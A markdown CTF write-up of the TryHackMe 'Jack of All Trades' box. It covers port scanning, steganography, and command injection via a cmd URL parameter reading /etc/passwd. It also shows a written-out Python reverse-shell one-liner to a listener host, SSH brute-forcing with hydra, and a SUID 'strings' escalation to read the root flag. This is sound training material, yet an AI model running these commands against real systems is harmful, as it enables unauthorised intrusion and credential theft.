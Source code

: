 # 'Jack-of-All-Trades' box writeup
## Jack of All Trades is a CTF box originally designed for Securi-Tay 2020 and written by MuirlandOracle, available on the [TryHackMe platform](https://tryhackme.com).
## Read about [How to allow restricted ports](https://support.mozilla.org/en-US/questions/1083282#answer-780274), [SUID files](https://www.tecmint.com/how-to-find-files-with-suid-and-sgid-permissions-in-linux/) and [Steghide](http://steghide.sourceforge.net/)
## ![bg](images/backgroundjack.jpeg?raw=true "Title")

## Foothold

+ **We deploy the machine and start with an nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.252.248``

+ **We can see 2 open ports with some services: ssh and http. The first strange thing is that the services are opened on reversed ports. Ssh is opened on the 80 ports and http on the 22 one**

![1](images/nmap_scan_jack.jpg?raw=true "Nmap_scan")

+ **Let's try to get to the http web-site on the 22 port. We see an browser error: seems like Firefox has canceled our request for kind of security. That's because the unusual use of 22 port for the http service**

![2](images/restrict.jpg?raw=true "restrict")

**We can allow this restricted port making some configuration inside the mozilla browser: [allow restricted ports](https://support.mozilla.org/en-US/questions/1083282#answer-780274). Go into the about:config page in the url, search for the ports and add the network.security.ports.banned.override string, with the 22 value**

![3](images/add_string.png?raw=true "add_string")

![4](images/welcome.png?raw=true "welcome")

**We can see our main page, with the box title and some images in there. Let's scan with gobuster too**

``gobuster dir -u http://10.10.252.248:22/ -w /usr/share/wordlists/dirb/common.txt``

![5](images/gobust.jpg?raw=true "gobust")

+ **Let's take a look into our gobuster output. Let's visit the assets page; we can see some *jpg* files, one of them called** stego.jpg **so we can think about an encrypted image with the help of steganography**

![6](images/assets.jpg?raw=true "assets")

+ **We can try to extract the stego image to see de hidden data, so we're gonna use steghide**

``steghide --extract -sf stego.jpg``

**A passphrase is requested, so we cannot immediately decrypt the image, but we can continue to enumerate the http page. Let's take a look into the source code of the page**

+ **We can spot a message left in the source code of the page: a recovery message which tells us we can connect on the /recovery.php page and there's also a base64 encoded message**

![7](images/base64.jpg?raw=true "base64")

**Let's try to decrypt our message**

``echo "UmVtZW1iZXIgdG8gd2lzaCBxxxxxxxxxx" | base64 -d``

![8](images/decrypt.jpg?raw=true "base64")

**We got a message and a password too! Let's use it to decrypt the image with steghide**

![9](images/first_steg.jpg?raw=true "first_steg")

+ **A creds.txt file was hidden inside, but the stego.jpg wasn't the good path. Let's download the other images from the assets page and extract them**

![10](images/real_steg.jpg?raw=true "real_steg")

``steghide --extract -sf header.jpg``

**Bingo! We got a username and a password inside the header.jpg image. Let's go to the /recovery.php page and try to login with the credentials**

+ **Logging in with our credentials on the page, we are redirected to a page with the message:**

``GET me a 'cmd' and I'll run it for you Future-Jack.``

![11](images/login.jpg?raw=true "login")

**Now, let's try some system commands inside the url:**

``http://10.10.252.248:22/nnxhweOV/index.php?cmd=cat /etc/passwd``

![cmd](images/cmdworks.jpg?raw=true "cmd")

+ **It's all working, so go grab a reverse shell. I'm gonna use python and start listen with nc**

``nc -lvnp 1234``

``http://10.10.252.248:22/nnxhweOV/index.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

![12](images/access.jpg?raw=true "access")

## User escalation

**Here we got our access into the system. Let's spawn an interactive shell with python and continue to enumerate**

``python -c 'import pty; pty.spawn("/bin/bash")'``

+ **Looking into the /home directory, we can see a** ``jacks_password_list`` **file which seems to be a password list for the jake user. According to the second service opened, on the 80 port, the ssh service, we're gonna try to bruteforce the login with the given wordlist and with the help of the Hydra tool**

![13](images/jackspassw.jpg?raw=true "jacks")

+ **Firstly, we need to download the** ``jacks_password_list`` **file to our machine. Open a python server on the Jack box and we're gonna get the file on ours**

**The Jack box**

**``www-data@jack-of-all-trades:/home$``** ``python -m SimpleHTTPServer 6999``

**Our machine**

**``{kali@kali:Jack of All Trades_0}$``** ``wget 10.10.252.248:6999/jacks_password_list``

+ **Now, having the wordlist, let's start the bruteforce phase. Don't forget to set the port for the ssh service, because it's not on the default (22), but the 80 one**

``hydra -s 80 -v -V -l jack -P jacks_password_list -t 8 10.10.252.248  ssh``

![13](images/hydra.jpg?raw=true "hydra")

**Let's connect into the ssh server with our credentials on the 80 port**

``ssh jake@10.10.252.248 -p 80``

+ **In the /home/jack directory we can see the user flag, but in the .jpg format. Let's get the image on our machine, using the same method as above, and then open it**

**``www-data@jack-of-all-trades:/home$``** ``python -m SimpleHTTPServer 6999``

**``{kali@kali:Jack of All Trades_0}$``** ``wget 10.10.252.248:6999/user.jpg``

**Opening the user.jpg flag, we can see the Penguing recipe and the user flag**

![14](images/user.flag.jpg?raw=true "user")

## Root escalation

+ **Checking for ``sudo -l`` on the jack user gives us no good path. He has no sudo permission on the machine**

``Sorry, user jack may not run sudo on jack-of-all-trades.``

**Let's check for some advanced linux file permissions - suid**

``find / -type f -user root -perm -4000 -print 2>/dev/null``

+ **This gives us some interesting output. The strings executable has got file owner permission when executing a command**

![15](images/suid.jpg?raw=true "suid")

**Knowing this, let's try to use strings on our root.txt flag**

``strings /root/root.txt``

+ **And here's our root flag. This was a very nice box with some steganography challenges into, a reversed ports configuration of services and some file permissions**

![15](images/root_flag_jack.jpg?raw=true "suid")
